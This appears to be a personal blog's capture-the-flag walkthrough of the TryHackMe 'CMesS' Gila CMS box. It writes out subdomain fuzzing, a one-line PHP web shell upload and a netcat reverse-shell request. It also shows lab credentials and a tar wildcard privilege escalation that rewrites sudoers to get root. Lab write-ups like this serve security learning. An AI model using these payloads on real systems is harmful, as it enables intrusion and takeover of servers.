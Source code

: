 ```yaml
---
layout: post
title:  "THM - CMesS"
date:   2020-07-31 18:00:00 +1000
category: hacking
---
```


## Introduction
*Can you root this Gila CMS box?*  

This is a medium rated box, and we already know it runs Gila CMS from the title. Let's begin.

## Ports
nmap says we've got 22 (SSH) and 80 (HTTP) only; web all the way? 

## Webserver
Checking searchsploit before doing much else, we can see there a couple of different authenticated RCE exploits for different versions of Gila, so presumably we're going to need some creds. 

We can do some gobusting/dirbusting and turn up plenty of links, but nothing very fruitful. Checking the Gila documentation doesn't help much either.

## Subdomains
We can use WFUZZ to fuzz for subdomains, so let's do that:

``
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" -t 42 --hl 1
``

Note: this command is NOT optimised - it didn't filter out bad results. But quickly scanning through it revealed one good result - dev.cmess.thm.

We add dev.cmess.thm to our /etc/hosts and continue

## dev.cmess.thm
This is a simple page that exists (essentially) purely for the purpose of giving us credentials. Yes, these CTFs are somewhat contrived.

**andre@cmess.thm:KPFTN_f2yxe%**

## In Gila
Once we log in and poke around for a bit, we find we can upload a file. I do **shell.phtml** with the contents:

{% highlight php %}
<?php system($_GET['cmd']);?>
{% endhighlight %}

Once we've got that we can send it a reverse shell command with Burp Suite:

``
GET /tmp/media_thumb/shell.phtml?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.9.10.123+1234+>/tmp/f HTTP/1.1
``

## On the box
We grabbed the credentials for the SQL login earlier when we were poking around in Gila: **root:r0otus3rpassw0rd**.

We can login to SQL:

{% highlight shell %}
www-data@cmess:/$ mysql --host=127.0.0.1 --port 3306 -u root -p  
Enter password: r0otus3rpassw0rd
etc.
mysql> select * from user;
{% endhighlight %}

And with that we grab andre's hash:  
*$2y$10$uNAA0MEze02jd.qU9tnYLu43bNo9nujltElcWEAcifNeZdk4bEsBa*


But to make it even easier we can find the password (*UQfsdCB7aAP6*) for andre in **/opt/.password.bak** and then we can **su andre**. 

## Andre
Linpeas points to a cronjob:

``
root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
``

This was a new one to me. At first I thought I could replace tar, but cron has it's own PATH:

``
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
``

And I can't write to any of these directories. So now what? Well, there are a class of **tar** exploits that I wasn't previously aware of. This [site](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) provides an explanation and examples. Here's what I did:

{% highlight shell %}
andre@cmess:/home/andre/backup$ echo 'echo "andre ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > test.sh
andre@cmess:/home/andre/backup$ echo "" > "--checkpoint-action=exec=sh test.sh"                      
andre@cmess:/home/andre/backup$ echo "" > --checkpoint=1                                             
andre@cmess:/home/andre/backup$ tar cf archive.tar *
test.sh: 1: test.sh: cannot create /etc/sudoers: Permission denied

andre@cmess:/home/andre/backup$ sudo -l
User andre may run the following commands on cmess:
    (root) NOPASSWD: ALL
andre@cmess:/home/andre/backup$ sudo /bin/bash
root@cmess:/home/andre/backup# cat /root/root.txt
thm{9f85b7fdeb2cf96985bf5761a93546a2}
{% endhighlight %}

To be honest, I don't really understand why this works, but it does. More things to learn.
